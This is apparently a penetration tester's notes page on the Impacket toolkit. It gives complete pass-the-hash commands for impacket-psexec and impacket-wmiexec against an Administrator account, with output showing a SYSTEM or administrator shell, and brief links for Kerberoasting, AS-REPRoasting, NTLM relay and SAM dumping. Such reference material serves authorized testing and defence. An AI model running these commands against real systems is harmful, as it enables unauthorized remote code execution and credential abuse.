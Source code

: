 # Impacket

## Pass-the-Hash

{% tabs %}
{% tab title="psexec" %}
`psexec` uploads a service executable to a writable share, registers it as a service, and starts it—this requires write access to a share. If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a `SYSTEM` shell:

{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\Windows\system32> whoami
nt authority\system

# Specify a command
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212 <command>
```
{% endcode %}
{% endtab %}

{% tab title="wmiexec" %}
`wmiexec` uses **Windows Management Instrumentation (WMI)** to execute commands remotely without needing to upload files or write to shares (stealthier and faster). If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a user shell:

{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## AS-REPRoasting

See how to use `impacket-GetNPUsers` [here](../attacks/as-reproasting.md#windows).

## Kerberoasting

See how to use `impacket-GetUserSPNs` [here](../attacks/kerberoasting.md#attack).

## NTMLv2 Relay

See how to use `impacket-ntlmrelayx` [here](../attacks/ntlmv2.md#ntmlv2-relay).

## Local SAM Dump

See how to use `impacket-secretsdump` [here](impacket.md#local-sam-dump).

